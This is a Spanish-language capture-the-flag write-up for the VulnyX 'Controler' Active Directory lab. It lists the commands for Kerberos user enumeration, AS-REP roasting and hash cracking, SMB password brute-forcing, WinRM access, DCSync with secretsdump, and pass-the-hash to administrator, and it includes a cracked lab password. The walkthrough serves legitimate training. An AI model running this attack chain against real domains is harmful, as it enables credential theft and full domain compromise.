# WRITEUP - CONTROLER - VULNYX

## Scanning

firstNmap

smb -> acceso con user="" y no pass, pero no se pueden listar usuarios ni shares ni nada
dns -> dig any @192.168.1.50 control.nyx

	;; ANSWER SECTION:
	control.nyx.            600     IN      A       192.168.1.50
	control.nyx.            3600    IN      NS      controler.control.nyx.
	control.nyx.            3600    IN      SOA     controler.control.nyx. hostmaster.control.nyx. 21 900 600 86400 3600

SOA (Start of Authority) -> 
	El registro SOA contiene los siguientes campos:

	Primary Name Server:
	El nombre del servidor DNS principal para la zona. Este es el servidor que contiene la copia maestra de los datos del dominio.

	Responsible Party:
	La dirección de correo electrónico del administrador del dominio, donde el carácter @ se reemplaza por un punto (.). Por ejemplo, admin.example.com corresponde a admin@example.com.

	Serial Number:
	Un número de versión que indica la última actualización de la zona. Se incrementa cada vez que se realiza un cambio en la configuración del dominio. Esto es importante para sincronizar los servidores secundarios.

	Refresh Interval:
	El tiempo que un servidor secundario debe esperar antes de consultar al servidor primario por actualizaciones.

	Retry Interval:
	Si el servidor secundario no puede conectarse al primario durante el intervalo de actualización, este valor indica cuánto tiempo esperar antes de intentarlo nuevamente.

	Expire Interval:
	El tiempo máximo que los datos de la zona serán considerados válidos por un servidor secundario sin poder actualizarse desde el primario.

	Minimum TTL (Time to Live):
	El tiempo mínimo en que otros servidores de nombres o clientes pueden almacenar en caché los registros de la zona.

posibles usuarios -> hostmaster, controler o posibles subdominos

secondNmap

53 -> DNS
88 -> Kerberos
135 -> SMB/RPC
139 -> Netbios
389 -> LDAP
445 -> SMB
464 ->Kerberos password change 
593 -> RPC over HTTP
636 -> LDAPS
3268 -> LDAP
3269 -> Global Catalog (GC) sobre SSL
5985 -> WinRM
9389 -> Active Directory Web Services (ADWS)
	47001	|
	49664	|
	49665	|
	49666	|
	49667	|
	49671	|
	49674	|	-> Puertos dinámicos
	49675	|
	49678	|
	49679	|
	49684	|
	49693	|
	49708	|


LDAP -> ldapsearch -H ldap://192.168.1.50 -x -s base

Necesito user:
	ldapsearch -H ldap://192.168.1.50 -x -b "DC=control,DC=nyx"
	
impacket-GetNPUsers control.nyx/controler -dc-ip 192.168.1.50
impacket-GetNPUsers control.nyx/hostmaster -dc-ip 192.168.1.50
	Imagen ussers kerberos
	
Enumeration kerberos:
impacket-GetNPUsers -usersfile /usr/share/SecLists/Usernames/Names/names.txt -dc-ip 192.168.1.50 -no-pass control.nyx/

Listas de kerberos?¿
https://github.com/attackdebris/kerberos_enum_userlists

Probamos a-z con punto:
impacket-GetNPUsers -usersfile /usr/share/kerberos_enum_userlists/A-Z.Surnames.txt -dc-ip 192.168.1.50 -no-pass control.nyx

Kerbrute más rápido?
https://github.com/ropnop/kerbrute

./kerbrute_linux_amd64 userenum --dc control.nyx -d control.nyx "/usr/share/kerberos_enum_userlists/A-Z.Surnames.txt"

KERBRUTE muuuuuuuuuuuuuuuucho más rápido

As-rep roasting
impacket-GetNPUsers control.nyx/b.lewis -dc-ip 192.168.1.50 -no-pass

Hashcat
imagen hash tipo
hashcat -m 18200 -a 0 b.lewis_hash /usr/share/wordlists/rockyou.txt 

Enumeration SMB -> imagen shares

enum4linux -a -u b.lewis -p 101Music 192.168.1.50
Imagenes enum4linux

new Users -> new asrep
imagen new asrep
Nadie nuevo

b.lewis no tiene permisos de winrm

smbclient sysvol
imagen 
smbclient net
imagen

kerberoasting -> NO es posible imagen

LDAPSEARCH -> ldapsearch -H ldap://192.168.1.50 -x -b "DC=control,DC=nyx" -D "control\b.lewis" -w "101Music"
Nada interesante

bruteforce smb
	nxc smb 192.168.1.50 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
	obtenemos la pass de j.levy
	imagen
mismos shares que b.lewis
imagen
evil-winrm con levy OK
imagen

Obtenemos la flag
imagen

Privilegios
imagen
Powershell history
imagen
Servicios
imagen

Bloodhound
Tuve problemas con bloodhound "normal" por lo que tuve que buscar otra forma de ejecutar bloodhound. Mediante containters

Imagenes bloodhound
DCsync -> impacket-secretsdump control.nyx/j.levy@192.168.1.50
imagen

pth administrator

flag administrator





	

